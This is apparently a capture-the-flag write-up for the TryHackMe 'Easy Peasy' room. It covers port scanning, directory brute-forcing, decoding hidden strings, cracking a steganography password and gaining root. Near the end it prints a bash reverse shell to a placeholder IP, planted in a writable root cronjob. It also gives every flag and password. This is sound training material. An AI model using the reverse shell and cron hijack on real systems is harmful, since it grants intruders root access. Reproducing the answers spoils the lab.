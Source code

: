 07.09.2020 | Felix Strobel ([relevant](https://tryhackme.com/p/relevant))

# Easy Peasy

  - [Task 1](#task-1)
  - [Task 2](#task-2)

## Task 1

<i>First we should check how many ports are open. To do so we will use [nmap](https://nmap.org/). We will use the `-p-` flag to scan all ports.<br>
The full command looks like this: `nmap -p- -sV MACHINE_IP`<br>
This can take a long time but nmap returns us the following.</i>

<pre>
PORT      STATE SERVICE VERSION
<b>80/tcp</b>    open  http    nginx <b>1.16.1</b>
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: nginx/1.16.1
|_http-title: Welcome to nginx!
<b>6498/tcp</b>  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
<b>65524/tcp</b> open  http    <b>Apache</b> httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.43 (Ubuntu)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>

1. How many ports are open?<br>
   `3`

<i>To detect the version of [nginx](https://nginx.org) we look at the output above.</i>

2. What is the version of nginx?<br>
   `1.16.1`

<i>To answer the last question we can also look at the output above.</i>

3. What is running on the highest port?<br>
   `Apache`

## Task 2

<i>We can use [gobuster](https://github.com/OJ/gobuster) to search for hidden directories. By using the `-u` flag we can specify a url to attack and as a wordlist we will use the [`common.txt`](https://gitlab.com/kalilinux/packages/dirb/-/blob/kali/master/wordlists/common.txt).<br>
The command: `gobuster dir -u "http://MACHINE_IP" -w ./common.txt`</i>

<pre>
<b>/hidden</b> (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
</pre>

<i>When visiting the `/hidden` directory we just can see a picture and the source code also does not help us. But that can not be the end. Let's search further and make another gobuster search on the `/hidden` directory.<br>
The full command: `gobuster dir -u "http://MACHINE_IP/hidden" -w ./common.txt`</i>

<pre>
/index.html (Status: 200)
<b>/whatever</b> (Status: 301)
</pre>

<i>The `/whatever` directory looks interesting. By visiting the page we again just see a picture. But looking at the source code we can see a hidden p-tag with a `base64` looking string in it. Let's decode this string: `echo ZmxhZ3tmMXJzN19mbDRnfQ== | base64 -d`</i>

1. What is flag 1?<br>
   `flag{f1rs7_fl4g}`

<i>Now looking at the Apache server we can see the default page. We could make another gobuster scan to find maybe any interesting files or directories.<br>
The full command: `gobuster dir -u "http://MACHINE_IP:65524" -w ./common.txt`<br>
Gobuster returns nothing really special but let's look at the `robots.txt`. At the User-Agent field is a string looking like a `MD5` hash or somehting like that.</i>

<pre>
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/index.html (Status: 200)
<b>/robots.txt</b> (Status: 200)
/server-status (Status: 403)
</pre>

<i>To crack the hash I tried many websites but all of them haven't worked for me. Excepting one: [md5hashing.net](https://md5hashing.net). I slapped the hash in an waited. And the website returns me the second flag.</i>

2. What is flag 2?<br>
   `flag{1m_s3c0nd_fl4g}`

<i>Looking back to the Apache default page source code we can see the third flag standing there in clear. If you can not find the flag just search for it.</i>

3. What is flag 3?<br>
   `flag{9fdafbd64c47471a8f54cd3fc64cd312}`

<i>The next question tells us to search for another hidden diretory. But not so fast. When I looked at the default page I also found another message: `its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu`. Should that mean that the string is base encoded? Let's try if we can decode it. A great website to test something like this is [CyberChef](https://gchq.github.io/CyberChef). I tried every `from base...` and got a hit with `base62`.</i>

4. What is the hidden directory?<br>
   `/n0th1ng3ls3m4tt3r`

<i>When visiting the hidden directory we can see another picture, another hash in the source code. The picture looks interesting because it is not stored on pixabay like the other pictures before. And it's name maybe should mislead us. Maybe there is a hidden file inside the picture. Let's download the picture by using `wget`.<br>
The command: `wget "http://MACHINE_IP:65524/n0th1ng3ls3m4tt3r/binarycodepixabay.jpg"`<br>
Now we can try [steghide](http://steghide.sourceforge.net) on this picture. With `-sf` we can set a file to extract from.<br>
The full command: `steghide extract -sf binarycodepixabay.jpg`<br>
But it prompts us for a password but we don't have a password. But there was this hash on the page and the rooms provides a wordlist. After downloading the wordlist we can start up [stegcracker](https://github.com/Paradoxis/StegCracker) to crack password.<br>
The command: `stegcracker binarycodepixabay.jpg easypeasy.txt`</i>

<pre>
StegCracker 2.0.9 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2020 - Luke Paris (Paradoxis)

Counting lines in wordlist..
Attacking file 'binarycodepixabay.jpg' with wordlist 'easypeasy.txt'..
Successfully cracked file with password: mypasswordforthatjob
Tried 3585 passwords
Your file has been written to: binarycodepixabay.jpg.out
<b>mypasswordforthatjob</b>
</pre>

5. What is the password from the hash?<br>
   `mypasswordforthatjob`

<i>We can `cat` out the `binarycodepixabay.jpg.out` and see the following.</i>

<pre>
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001
</pre>

<i>A username and a password encoded in binary...interesting. On [RapidTables](https://www.rapidtables.com/convert/number/binary-to-ascii.html) we can easily paste the binary in and convert it to text.</i>

6. What is the password to login to the machine via SSH?<br>
   `iconvertedmypasswordtobinary`

<i>We have all credentials for a SSH login. After logging in we are in the home directory and can `cat` the `user.txt`.</i>

<pre>
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}
</pre>

<i>The flag is 'rotated'. That means we should decode the flag with `ROT13`. I used an [online tool](https://gc.de/gc/rot13).</i>

7. What is the user flag?<br>
   `flag{n0wits33msn0rm4l}`

<i>Now we have to become root to read the root flag. Looking at the cronjobs with `cat /etc/cronjobs` shows us that there is a cronjob running as root.</i>

<pre>
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
<b>* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh</b>
</pre>

<i>When we look at the `.mysecretcronjob.sh` we have read and write permissions. That means we can execute commands as root. To get a reverse-shell we can copy one from [pentestmonkey.net](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). Now we have to `nano .mysecretcronjob.sh` and paste our reverse-shell in.</i>

<pre>
#!/bin/bash
bash -i >& /dev/tcp/YOUR_INTERNAL_IP/8080 0>&1
</pre>

<i>And we have to listen for a connection using `netcat -lnvp 8080`. It does not need much time and we get a connection and we became root. we can `cd` into the `/root` diretory and `ls -a` list all files. There is a `.root.txt` file. Because we are root we can simply type `cat .root.txt` and get the final root flag.</i>

8. What is the root flag?<br>
   `flag{63a9f0ea7bb98050796b649e85481845}`
